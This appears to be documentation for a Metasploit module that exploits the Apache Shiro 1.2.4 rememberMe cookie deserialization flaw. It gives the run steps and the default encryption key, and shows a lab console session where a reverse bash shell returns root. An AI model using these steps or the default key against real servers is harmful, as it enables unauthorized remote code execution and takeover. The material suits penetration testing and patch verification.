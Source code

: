 ## Vulnerable Application

[Shiro RememberMe 1.2.4](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

### Description

Apache Shiro v1.2.4 is vulnerable to a Java deserialization vulnerability. An
unauthenticated user can submit a YSoSerial payload to the Apache Shiro web
server as the value to the `rememberMe` cookie. This will result in code
execution in the context of the web server.

The YSoSerial `CommonsCollections2` payload is known to work and is the one
leveraged by this module.

Note that other versions of Apache Shiro may also be exploitable if the
encryption key used by Shiro to encrypt `rememberMe` cookies is known.

## Verification Steps

1. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
2. `set rhosts <rhost>`
3. `run`

## Options
  **ENC_KEY**
  The encryption key the target Apache Shiro server is using to encrypt its `rememberMe` cookies.

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf6 > use exploit/multi/http/shiro_rememberme_v124_deserialize
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > show options

Module options (exploit/multi/http/shiro_rememberme_v124_deserialize):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   ENC_KEY    kPH+bIxk5D2deZiIxcaaaA==  yes       Shiro encryption key
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       Base directory path
   VHOST                                no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command payload


msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > set RHOSTS 172.18.0.2
RHOSTS => 172.18.0.2
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:60632) at 2020-12-21 17:09:27 -0600

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
